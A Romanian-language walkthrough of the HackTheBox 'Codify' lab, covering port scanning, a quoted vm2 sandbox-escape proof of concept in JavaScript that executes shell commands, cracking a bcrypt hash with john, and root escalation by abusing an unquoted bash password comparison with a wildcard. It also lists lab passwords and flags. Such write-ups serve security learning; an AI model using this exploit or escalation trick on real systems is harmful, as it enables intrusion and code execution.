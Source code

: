 1. Scanam masina ca sa gasim porturile deschise pe masina
```bash
nmap -sSCV -T 4 -p- -oN /home/h1p/HackTheBox/Labs/codify.nmap.scan 10.10.11.239
```
![[Pasted image 20231109143707.png]]
Vedem 2 porturi deschise 22 [[Tools/ssh]] si 80 [[HTTP]]
2. Adaugam in fisierul `/etc/hosts` hostul nostru `10.10.11.239    codify.htb`
![[Pasted image 20231109143834.png]]
3. Putem vedea ce fel de framework lucreaza aplicatia noastra.
![[Pasted image 20231110112419.png]]
Vedem si codul sursa
![[Pasted image 20231110112514.png]]
Avem si versiune exacta la acest framework `vm2 3.9.16`
4. Pe google facem un search pentru vulnerabilitatea data ca sa vedem daca nu gasim o vulnerabilitate.
![[Pasted image 20231110112654.png]]
`Proof of concept` este singur codul pentru exploit din emaginea mai sus vedem ca este vulnerabil si este si exploitul aici -> https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244
```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```
In loc de `touch pwned` punem orice commanda care dorim sa se execute.
![[Pasted image 20231110113009.png]]
Nu putem primi un revers shell din care motive nu stiu.
![[Pasted image 20231110113208.png]]
Facem in felul urmator:
a) Rulam un server cu ajutorul lui [[python3]] 
![[Pasted image 20231110115301.png]]
b) Acesam shell sil transmitem in bash
![[Pasted image 20231110115329.png]]
c) Vualea avem si shell-ul 
![[Pasted image 20231110115359.png]]
d) Dar nu avem flagul de user deci trebuie sa primim cumva aces la utilizatorul `joshua`
5. Am gasit ceva dar este in forma de hash:
![[Pasted image 20231110120914.png]]
```hash
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```
6. Cu ajutorul la [[john]] putem sa spargem parola:
```bahs
john -w=/usr/share/wordlist.txt hash.joshua
```
![[Pasted image 20231110121448.png]]
Parola este ->`spongebob1`
7. Ne logam ca `joshua` cu [[Tools/ssh]] care este pe portul 22.
`ssh`
![[Pasted image 20231110121709.png]]
8. Am gasit si vectorul ca sami ridic privilegile.
![[Pasted image 20231110121823.png]]
9. Am uitat sa inregistres flagul pentru user 
User flag -> `23f9cc65993bc189e354dab8f860f41c`
![[Pasted image 20231110122009.png]]
10. Continuam acesta este continutul scriptului nostru:
```bash
#!/bin/bash  
DB_USER="root"  
DB_PASS=$(/usr/bin/cat /root/.creds)  
BACKUP_DIR="/var/backups/mysql"  
  
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS  
/usr/bin/echo  
  
if [[ $DB_PASS == $USER_PASS ]]; then  
       /usr/bin/echo "Password confirmed!"  
else  
       /usr/bin/echo "Password confirmation failed!"  
       exit 1  
fi  
  
/usr/bin/mkdir -p "$BACKUP_DIR"  
  
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;  
" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")  
  
for db in $databases; do  
   /usr/bin/echo "Backing up database: $db"  
   /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bi  
n/gzip > "$BACKUP_DIR/$db.sql.gz"  
done  
  
/usr/bin/echo "All databases backed up successfully!"  
/usr/bin/echo "Changing the permissions"  
/usr/bin/chown root:sys-adm "$BACKUP_DIR"  
/usr/bin/chmod 774 -R "$BACKUP_DIR"  
/usr/bin/echo 'Done!'
```
Din scriptul de mai sus vedem ca variabila DB_PASS se transmite in clear text aceasta inseamna ca noi putem so vedem cu ochi dar in output ea nu este trebuie sa monitorizam procesele pentru a vedea acest lucru.
11. pspy64 ne permite acest lucru.
![[Pasted image 20231110123433.png]]
12. Dar mai este o problema el verifica cu un if daca passwor-durile sunt drepte si in cazul dat trebuie sa cunoastem cum se efectueaza aceste conditii.
In cazul nostru `$DB_PASS == $USER_PASS` nu se folosecte virgule la variabele deci daca facem constructia data de felul  `$DB_PASS == *` ea va returna `true`.
![[Pasted image 20231110124008.png]]
Acest lucru lucreaza lol kek
Avem si parola pentru root:
![[Pasted image 20231110124057.png]]
`-p` - este flag el nu este simbol al parolei
Parola pentru root `kljh12k3jhaskjh12kjh3`
![[Pasted image 20231110124207.png]]
Root flag `192de51b83fb386f97f3594ca94ec011`